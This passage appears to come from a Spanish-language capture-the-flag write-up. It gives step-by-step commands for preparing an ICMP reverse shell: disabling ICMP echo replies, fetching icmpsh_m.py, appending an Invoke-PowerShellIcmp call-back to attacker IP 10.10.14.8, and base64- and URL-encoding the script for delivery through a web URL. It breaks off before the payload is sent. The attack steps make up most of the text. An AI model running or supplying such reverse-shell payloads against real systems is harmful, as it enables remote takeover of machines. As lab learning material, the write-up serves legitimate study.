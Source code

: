 Aqui como tenemos que pasar por la url de la web para enviarnos el fichero, tenemos que preparar el fichero.

1. Ejecucion de comandos prealables en nuestra maquina

    ```bash
    sysctl -w net.ipv4.icmp_echo_ignore_all=1
    wget https://raw.githubusercontent.com/bdamele/icmpsh/master/icmpsh_m.py
    ```

1. Añadimos el invoke al final del fichero

    ```bash
    Invoke-PowerShellIcmp -IPAddress 10.10.14.8
    ```

1. Borramos todo los comentarios que hay en el fichero
1. Borramos todo los saltos de linea

    ```bash
    cat icmp.ps1 | sed '/^\s*$/d' > icmp
    rm icmp.ps1
    mv icmp icmp.ps1
    ```

1. Utilizamos una powershell

    ```bash
    pwsh
    ```

1. Codificamos el fichero en base64

    ```bash
    $fileContent = Get-Content -Raw ./icmp.ps1
    $fileContent
    $bytes = [System.Text.Encoding]::Unicode.GetBytes($fileContent)
    $encode = [Convert]::ToBase64String($bytes)
    $encode | Out-File icmp.ps1.b64
    ```

1. En una shell linux normal modificamos los symbolos 
```bash
 + 
```
 y 
```bash
 = 
```
 para encodearlos en urlencode

    ```bash
    php --interactive
    print urlencode("+");
    %2B
    print urlencode("=");
    %3D
    ```
